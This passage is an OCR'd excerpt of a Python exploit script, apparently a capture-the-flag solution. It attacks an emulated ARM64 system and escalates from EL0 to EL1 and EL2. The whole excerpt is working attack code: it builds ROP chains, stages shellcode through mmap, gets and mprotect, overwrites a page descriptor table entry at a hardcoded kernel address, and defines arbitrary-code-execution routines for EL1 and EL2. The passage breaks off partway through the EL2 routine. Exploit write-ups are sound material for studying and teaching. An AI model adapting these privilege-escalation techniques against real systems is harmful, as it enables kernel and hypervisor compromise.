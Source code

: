 ```python
            b.lt read_rop_chain
        
        mov x0, 0;\n
        ldr x1, ={hex(EL1_SYSCALL_HANDLER_RET_ADDR+1)};\n
        mov x2, 1;\n
        ldr x5, ={el0_elf.symbols['read']};\n
        blr x5;\n
        """
        + el0_tail_assembly
    )
    p.send(head_input)
    p.send(rop_chain)
    p.send(b"\x94")
    p.send(tail_input)


def el1_arbitrary_code_execute(assembly: str) -> None:
    NEW_PAGE_ADDR = 0x7FFEFFFFB000
    DESCRIPTOR_TABLE_ADDR_OF_NEW_PAGE = 0xFFFFFFFFC0028FD8
    chain = [0, NEW_PAGE_ADDR]
    el1_return_oriented_programming(
        rop_chain=chain,
        el0_head_assembly=f"""
            mov x0, #0;\n
            mov x1, 0x01000;\n
            mov x2, #3;\n
            mov x3, xzr;\n
            mov x4, xzr;\n
            mov x5, #0xFFFFFFFFFFFFFFFF;\n
            ldr x6, ={el0_elf.symbols['mmap']};\n
            blr x6;\n
            
            mov x20, x0;\n
            
            ldr x6, ={el0_elf.symbols['gets']};\n
            blr x6;\n
            
            mov x0, x20;\n
            mov x1, 0x01000;\n
            mov x2, #5;\n
            ldr x6, ={el0_elf.symbols['mprotect']};\n
            blr x6;\n
            
            mov x0, 0;\n
            ldr x1, ={hex(DESCRIPTOR_TABLE_ADDR_OF_NEW_PAGE+6)};\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        """,  # this mmap allocate NEW_MAP_ADDR(0x7ffeffffb000)-0x36000
        head_input=make_shellcode(assembly) + b"\n" + b"\x00",
    )


def el2_arbitrary_code_execute(assembly_or_shellcode: str | bytes) -> None:
    EL1_GET_CHAR = 0xFFFFFFFFC0009AD8
    if isinstance(assembly_or_shellcode, str):
        shellcode = make_shellcode(assembly_or_shellcode)
    else:
        shellcode = assembly_or_shellcode
```